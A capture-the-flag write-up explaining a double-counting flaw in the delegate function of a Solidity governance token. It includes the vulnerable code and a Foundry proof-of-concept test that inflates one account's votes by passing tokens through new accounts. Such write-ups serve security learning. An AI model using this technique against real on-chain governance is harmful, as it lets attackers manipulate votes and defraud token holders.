 # Quillaudit CTF - Voting Machine

report by @0xcharlie
Github: github.com/charliefinos

### Impact

Any user with vTokens can claim votes when using `delegate` function for the first time.

The first time`delegate` function is called `_delegates[_addr]` is zero and never checked.

So this make any user with vToken balance able to claim vTokens amount of votes.

To keep claiming votes, a bad user can transfer vTokens to new accounts and use `delegate` and claim votes so on. 

This contracts allows to claim any amount of tokens due to an initialization 

```solidity
function _delegate(address _addr, address delegatee) internal {
        // First _delegates for Alice will be 0
        address currentDelegate = _delegates[_addr];
				// Alice have 1000 tokens
        uint256 _addrBalance = balanceOf(_addr);
        _delegates[_addr] = delegatee;
        _moveDelegates(currentDelegate, delegatee, _addrBalance);
    }
```

Since `currentDelegate` = 0 the first time it won’t pass and not get updated, just the `to` address

```solidity
function _moveDelegates(address from, address to, uint256 amount) internal {
        if (from != to && amount > 0) {
						// if from is == address(0) it wont revert
            if (from != address(0)) {
                uint32 fromNum = numCheckpoints[from];
                uint256 fromOld = fromNum > 0
                    ? checkpoints[from][fromNum - 1].votes
                    : 0;
                uint256 fromNew = fromOld - amount;
                _writeCheckpoint(from, fromNum, fromOld, fromNew);
            }

            if (to != address(0)) {
                uint32 toNum = numCheckpoints[to];
                uint256 toOld = toNum > 0
                    ? checkpoints[to][toNum - 1].votes
                    : 0;
                uint256 toNew = toOld + amount;
                _writeCheckpoint(to, toNum, toOld, toNew);
            }
        }
    }
```

### Proof of Concept

To Reproduce this code, copy and paste this test function to your foundry test file.

```solidity
function testExploit() public {
        // Solution
				// Alice delegate 100 votes to hacker
        vm.startPrank(alice);
        vToken.delegate(hacker);
				// Approve and send tokens to bob
        vToken.approve(bob, 1000);
        vToken.transfer(bob, 1000);
        vm.stopPrank();
				
        vm.startPrank(bob);
				// Bob delegates 1000 votes to hacker
        vToken.delegate(hacker);
				// Approve and send tokens to carl
        vToken.approve(carl, 1000);
        vToken.transfer(carl, 1000);
        vm.stopPrank();

        vm.startPrank(carl);
				// Carl delegates 1000 votes to hacker
        vToken.delegate(hacker);
				// Approve and send tokens to hacker
        vToken.approve(hacker, 1000);
        vToken.transfer(hacker, 1000);
        vm.stopPrank();
				
				// Hacker vToken votes should be 3000
        uint hacker_vote = vToken.getVotes(hacker);
        console.log("Vote Count of Hacker before attack: %s ", hacker_vote);
				// Hackers balance of vToken should be 1000
        uint hacker_balance = vToken.balanceOf(hacker);
        console.log("Hacker's vToken after the attack: %s: ", hacker_balance);

        assertEq(hacker_vote, 3000);
        assertEq(hacker_balance, 1000);
    }
}
```